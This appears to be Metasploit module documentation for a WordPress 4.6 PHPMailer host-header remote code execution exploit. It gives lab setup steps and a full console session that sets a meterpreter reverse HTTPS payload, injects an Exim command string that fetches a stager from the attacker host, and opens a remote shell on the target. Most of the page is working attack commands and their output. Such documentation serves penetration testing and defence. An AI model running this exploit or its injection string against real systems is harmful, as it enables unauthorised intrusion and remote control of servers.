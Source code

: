 ## Intro

This vuln has some caveats: you need approximately WordPress 4.6 with
Exim for the `sendmail(8)` command.

Thanks to WP's awesome practice of backporting the heck out of all their
patches, we need to use a Git clone and check out the vuln release.

## Setup

This was tested on Ubuntu. YMMV.

1. got root?
2. `cd /var/www/html`
3. `git clone https://github.com/WordPress/WordPress wordpress-4.6`
4. `chown -R www-data:www-data wordpress-4.6`
5. `cd wordpress-4.6`
6. `git checkout 4.6`
7. Set up a MySQL database for WordPress
8. Install as normal

## Options

**VERBOSE**

If you'd like to see what requests are being sent, set this to `true`.
You should see the Exim prestager commands being sent to the target.

## Usage

Please set the payload options. Some sane defaults are set, but you'll
want to be as specific as possible.

```
msf > use exploit/unix/webapp/wp_phpmailer_host_header 
msf exploit(wp_phpmailer_host_header) > set rhost 192.168.33.152
rhost => 192.168.33.152
msf exploit(wp_phpmailer_host_header) > set targeturi /wordpress-4.6
targeturi => /wordpress-4.6
msf exploit(wp_phpmailer_host_header) > set payload linux/x64/meterpreter_reverse_https
payload => linux/x64/meterpreter_reverse_https
msf exploit(wp_phpmailer_host_header) > set lhost 192.168.33.1
lhost => 192.168.33.1
msf exploit(wp_phpmailer_host_header) > set verbose true
verbose => true
msf exploit(wp_phpmailer_host_header) > run

[*] Started HTTPS reverse handler on https://192.168.33.1:8443
[*] WordPress 4.7 installed at http://192.168.33.152/wordpress-4.6
[*] Generating wget command stager
[*] Using URL: http://0.0.0.0:8080/gzayjqwr
[*] Local IP: http://192.168.1.7:8080/gzayjqwr
[*] Generating and sending Exim prestager
[*] Sending /bin/sh -c ${reduce{get /gzayjqwr http/1.0}{${run{/bin/echo}}}{${extract{-1}{$value}{${readsocket{inet:192.168.33.1:8080}{$item$value$value}}}}}}
[*] https://192.168.33.1:8443 handling request from 192.168.33.152; (UUID: bwm9z08k) Redirecting stageless connection from /Dbyg6-yOlTQo9i70ceSG0wDDy1JAZjOS5ToQyoXw4zXBnF with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.33.1:8443 handling request from 192.168.33.152; (UUID: bwm9z08k) Attaching orphaned/stageless session...
[*] Meterpreter session 1 opened (192.168.33.1:8443 -> 192.168.33.152:35138) at 2017-05-10 01:07:35 -0500
[*] Sending /bin/rm -f /tmp/ovcixpnf
[*] Server stopped.

meterpreter > 
```

